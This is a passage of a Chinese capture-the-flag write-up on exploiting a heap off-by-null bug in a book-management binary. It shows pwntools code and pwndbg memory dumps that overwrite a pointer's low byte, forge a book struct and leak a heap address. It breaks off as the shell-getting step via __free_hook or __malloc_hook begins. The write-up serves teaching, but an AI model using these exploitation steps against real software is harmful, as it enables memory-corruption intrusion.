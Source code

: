 ```
0x555555605190:	0x0000000000000002	0x00007ffff7fcf010     //book2_struct_addr
```

修改author_name,将book1_struct_addr的低字节更改成00

```python
change_author_name(target, 'a'*32)
```

```
pwndbg> x /10gx 0x555555602040
0x555555602040:	0x6161616161616161	0x6161616161616161
0x555555602050:	0x6161616161616161	0x6161616161616161
0x555555602060:	0x0000555555605100	//低字节已经从之前的60变成00     0x0000555555605190
0x555555602070:	0x0000000000000000	0x0000000000000000
0x555555602080:	0x0000000000000000	0x0000000000000000
```

那么按照这个思路，查看book1_struct_addr（0x0000555555605100）中的内容

```
pwndbg> x /10gx 0x0000555555605100
0x555555605100:	0x0000000000000001	0x0000555555605198   //伪造的book1_id   book1_name_ptr
0x555555605110:	0x0000555555605198	0x000000000000ffff//伪造的book1_description_ptr book1_description_size
0x555555605120:	0x0000000000000000	0x0000000000000000
0x555555605130:	0x0000000000000000	0x0000000000000000
0x555555605140:	0x0000000000000000	0x0000000000000000
```

达到了我们想要的效果,其实0x555555605160中存储的依旧是之前的book1

**解释**：为什么要这么构造？

首先book1_struct这个结构体的内容构造比较好理解，id继续为1，而我们要得到book2_name_ptr，故将book1_name_ptr和book1description_ptr换成book2_name_ptr，size随意。那前面填充的'a'*0x40怎么来的呢？经过调试，0x5555556050c0到0x555555605100的长度(好奇，现在我是关闭了地址随机化，如果开启了，那还是任何时候都是填充0x40个吗？答案：是的，因为一开始分配的堆地址低字节是00，如果在book1的chunk之前位置的chunk的大小或者数量没有发生改变，那么低字节也一直不会变)

```
# leak book2_name ptr
print_book(target)
target.recvuntil('Name: ')
temp = target.recvuntil('\x0a')
book2_name_ptr = u64(temp[:-1].ljust(8, '\x00'))
print('book2_name_ptr:'+hex(book2_name_ptr))
```

执行后查看结果

```
book2_name_ptr:0x7ffff7fcf010
```

虽然我们再调试过程中能够看到这个地址，且输出的和我们调试看到的一直，但实际我们无法看到，这就是这个漏洞的作用所在

###### 第三步：获取shell

由于该程序启用了 `FULL RELRO` 保护措施，无法对 `GOT` 进行改写，但是可以改写`__free_hook` 或`__malloc_hook`，
